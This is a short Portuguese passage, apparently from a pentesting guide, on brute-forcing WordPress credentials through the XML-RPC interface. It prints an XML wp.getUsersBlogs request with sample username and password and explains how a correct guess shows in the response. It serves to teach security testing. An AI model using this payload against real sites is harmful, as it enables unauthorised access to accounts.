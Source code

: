 <figure><img src="../../.gitbook/assets/img.jpg" alt=""><figcaption><p>Figura: Requisição XMLRPC</p></figcaption></figure>



**Brute Force nas credenciais**



Para perfomar este ataque, _wp.getUserBlogs, wp.getCategories ou metaWeblog.getUsersBlogs_ são alguns métodos usados, você deve inserir:



```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```



Dentro do valor "_param_" você insere as credenciais para testar, caso a resposta não seja "_Incorrect username or password_" dentro de um código 200, você conseguiu as credenciais corretas.



<figure><img src="../../.gitbook/assets/img2.png" alt=""><figcaption><p>Figura: Credencial incorreta</p></figcaption></figure>
